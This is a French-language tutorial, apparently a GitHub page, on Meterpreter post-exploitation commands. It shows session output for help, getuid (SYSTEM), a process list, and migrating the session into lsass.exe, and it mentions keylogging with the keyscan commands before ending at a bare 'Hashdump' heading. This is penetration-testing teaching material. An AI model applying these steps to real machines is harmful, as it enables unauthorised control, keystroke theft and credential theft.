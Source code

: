 
Une fois qu'on a pu acceder à la machine ciblé meterpreter nous offre beaucoup de commande.

## __Help__

Pour avoir la liste des commandes accessibles.

```shell
meterpreter > help

Core Commands 
============= 

	Command           Description
	-------           -----------
	?                 Help menu 
	background        Backgrounds the current session 
	bg                Alias for background
	bgkill            Kills a background meterpreter script 
	bglist            Lists running background scripts
	bgrun             Executes a meterpreter script as a background thread
	channel           Displays information or control active channels
	close             Closes a channel[...]
```


## __Getuid__

Pour récupérer le nom de l'utilisateur actuel.

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```


## __Ps__

Pour lister tout les processus en cours.

```shell
meterpreter > ps 

Process List 
============ 

PID   PPID  Name              Arch Session User                           Path
---   ----  ----              ---- ------- ----                           ---- 
0     0     [System Process]
4     0     System            x64   0 
396   644   LogonUI.exe       x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\LogonUI.exe 
416   4     smss.exe          x64   0      NT AUTHORITY\SYSTEM            \SystemRoot\System32\smss.exe 
428   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
548   540   csrss.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe 
596   540   wininit.exe       x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\wininit.exe
604   588   csrss.exe         x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe
644   588   winlogon.exe      x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\winlogon.exe 
692   596   services.exe      x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\services.exe
700   692   sppsvc.exe        x64   0      NT AUTHORITY\NETWORK SERVICE 
716   596   lsass.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsass.exe
724   596   lsm.exe           x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsm.exe 
764   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM  
828   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
864   828   WmiPrvSE.exe   
900   692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE 
952   692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1076  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1164  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1168  692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE
1244  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1276  1304  cmd.exe           x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe 
1304  692   spoolsv.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
1340  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1388  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]
```


## __Migrate__

On peut migrer meterpreter vers un autre processus pour mieux interagir avec. Par exemple si on voit un logiciel de traitement de texte comme word.exe ou notepad.exe, on peut capturer les entrées clavier avec `keyscan_start`, `keyscan_stop` et `keyscan_dump`.

```shell
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully. 
meterpreter >
```


## __Hashdump__

